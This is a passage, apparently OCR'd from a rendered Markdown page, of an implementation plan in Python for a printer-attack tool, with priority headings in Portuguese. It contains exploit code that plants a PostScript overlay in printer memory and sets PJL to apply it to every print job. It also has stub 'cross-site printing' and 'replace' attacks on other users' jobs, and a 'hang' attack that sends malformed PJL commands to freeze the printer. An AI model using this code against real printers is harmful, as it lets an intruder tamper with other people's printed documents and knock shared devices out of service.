 ```python
    # Set up PJL to inject overlay into all jobs
    # This requires PostScript injection
    ps_overlay = f"""
    %!PS-Adobe-3.0
    % Overlay injection
    gsave
    {overlay_data.decode('utf-8', errors='ignore')}
    grestore
    """
    
    # Store overlay in printer memory
    self.put("0:/overlay.ps", ps_overlay.encode())
    
    # Configure printer to apply overlay
    self.cmd("@PJL SET OVERLAY=ON")
    self.cmd("@PJL SET OVERLAYFILE=\"0:/overlay.ps\"")
    
    output().info("Overlay installed - will be applied to all print jobs")

def do_cross(self, arg):
    """Cross-site printing - inject content into other users' jobs"""
    if not arg:
        output().errmsg("Usage: cross <text_or_file>")
        return
    
    # Implementation similar to overlay but targets specific jobs
    output().warning("Cross-site printing attack...")

def do_replace(self, arg):
    """Replace attack - substitute document content"""
    output().warning("Replace attack - substitutes print job content")
    # Implementation: Intercept and modify job data
```

---

### PRIORIDADE ALTA (P1)

#### 3. Hang Attack
**Implementação**:
```python
def do_hang(self, arg):
    """Hang printer with malformed PJL commands"""
    output().warning("Attempting to hang printer...")
    output().warning("This may require power cycle to recover!")
    
    try:
        confirm = input("Continue? (yes/no): ")
        if confirm.lower() != 'yes':
            output().info("Hang attack cancelled")
            return
    except (EOFError, KeyboardInterrupt):
        output().info("Hang attack cancelled")
        return
    
    # Various hang vectors
    self.cmd("@PJL ENTER LANGUAGE=INVALID", False)
    self.cmd("@PJL SET LANGUAGE=UNKNOWN", False)
    # Send conflicting commands
    self.cmd("@PJL DEFAULT", False)
    self.cmd("@PJL RESET", False)
```

---